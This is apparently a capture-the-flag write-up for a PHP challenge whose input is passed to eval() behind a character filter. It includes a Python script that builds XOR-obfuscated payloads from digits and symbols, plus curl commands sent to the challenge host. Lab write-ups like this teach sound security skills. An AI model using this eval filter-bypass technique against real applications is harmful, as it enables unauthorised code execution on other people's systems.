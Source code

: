 # Love Note writeup:
- 1: let make some test:
     every message we submit result to this :
> I don't understand letters darling.What do you mean ....
 i submit this: 5+5  and the result is:  10
 i thing directly to eval :grin: 
ok let  submit this malicious input: ;
Result:
> Parse error: syntax error, unexpected token ";" in /app/index.php(74) : eval()'d code on line 1
so we know that  the backend use our input with eval function.
- 2 know we need to execute code trough  our input.
       for this, we can use burp repeater to make many test.
       after make some test, i understand that the input is filter.
       i use burp intruder to understand the filter. 
# all char is filter expect digits and symbols
 allowed charset is: 0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
we need to creaft our payload with only allowed chars. But how can we do that :thinking: 
# xored text

# dont forget our purpose is: submit "i love You" message.
we need to creaft  two strings composed only of digits and symbols and the Xor of these two strings will give us our message : " I love You".  i write a simple python script to do that

```python
#from pwn import xor
from string import digits, punctuation

allow_charset = digits + punctuation

def xored_text(text):
    obfuscate1 = ''
    obfuscate2 = ''
    result = ''
    for letter in text:
        found = False
        for  l1 in allow_charset:
            for l2 in allow_charset:
                if ord(l1) ^ ord(l2) == ord(letter):
                    obfuscate1 += l1
                    obfuscate2 += l2
                    found = True
                if found:
                    break
            if found:
                break
        if not found:
            print(f"warning we haven't fund  symbol for {letter}")

    print( f"payload : ('{obfuscate1}'^ '{obfuscate2}')")
    return obfuscate1 + '   ' + obfuscate2





print(xored_text("i love you"))
```

```bash
$ python3 generate_payload.py
payload : ('2@0068@905'^ '[`\_@]`@_@')
2@0068@905   [`\_@]`@_@

```  the script give us this payload: ('2@0068@905'^ '[`\_@]`@_@')


```bash
curl -X POST  -d expression="('2@0068@905'^ '[\`\_@]\`@_@')"  https://lovenote.up.railway.app/
```
# Result:
in  the result , we have this:
```html
<div class="love-note">
            <h2>Messages approuvés :</h2>
            Check ayiwannoumi1247.txt
        </div>
```
so we need to check  ayiwannoumi1247.txt file
```bash
curl   https://lovenote.up.railway.app/ayiwannoumi1247.txt
LoveCTF{4lw4y5_c0mmun1c473_s3cr37ly_w17h_my_l0v3}
```
winnnnnnnnnnnnnnnnn :sweat_smile: !!!!!!!!!!!
that's all :pray_tone1:
